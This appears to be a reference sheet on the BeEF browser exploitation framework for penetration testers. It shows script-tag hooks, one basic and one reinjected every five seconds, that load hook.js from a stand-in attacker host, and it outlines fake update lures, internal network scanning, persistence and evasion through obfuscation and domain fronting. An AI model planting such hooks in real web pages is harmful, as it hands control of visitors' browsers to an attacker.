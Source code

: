 # BeEF - Browser Exploitation Framework

Penetration testing tool focusing on web browser exploitation and client-side attacks.

## Installation

```bash
# Ubuntu/Debian
apt install beef-xss

# From source
git clone https://github.com/beefproject/beef.git
cd beef
bundle install
```

## Starting BeEF

```bash
# Start BeEF server
./beef

# Access web interface
http://127.0.0.1:3000/ui/panel
# Default credentials: beef:beef
```

## Hook Integration

### Basic Hook
```html
<script src="http://attacker-ip:3000/hook.js"></script>
```

### Persistent Hook
```html
<script>
setInterval(function(){
  var script = document.createElement('script');
  script.src = 'http://attacker-ip:3000/hook.js';
  document.head.appendChild(script);
}, 5000);
</script>
```

### Social Engineering Hooks
- Fake login forms
- Software update notifications
- Security warning popups
- Fake error messages

## Command Modules

### Information Gathering
```bash
# Browser fingerprinting
- Detect browser version
- Plugin enumeration
- System information
- Network details
```

### Social Engineering
```bash
# Fake notifications
- Adobe Flash update
- Java update required
- Security certificate warning
- Browser out of date
```

### Network Discovery
```bash
# Internal network scanning
- Port scanning through browser
- Service enumeration
- Network topology mapping
- Router exploitation
```

### Persistence
```bash
# Maintain access
- Browser autopwn
- Persistent hooks
- Cross-site scripting
- Man-in-the-browser attacks
```

## Advanced Attacks

### Tunneling Proxy
Route traffic through hooked browsers for internal network access.

### DNS Tunneling
Bypass network restrictions using DNS queries.

### WebRTC Attacks
Exploit WebRTC for IP address disclosure and direct connections.

### Browser Autopwn
Automated exploitation of browser vulnerabilities.

## REST API

```bash
# Hook status
GET /api/hooks

# Execute module
POST /api/modules/{module_id}/command

# Results retrieval
GET /api/logs
```

## Evasion Techniques

### Obfuscation
- JavaScript code obfuscation
- Dynamic payload generation
- Anti-detection measures

### Domain Fronting
- CDN-based delivery
- Legitimate domain abuse
- Traffic masking

Educational tool for understanding client-side attack vectors and browser security.

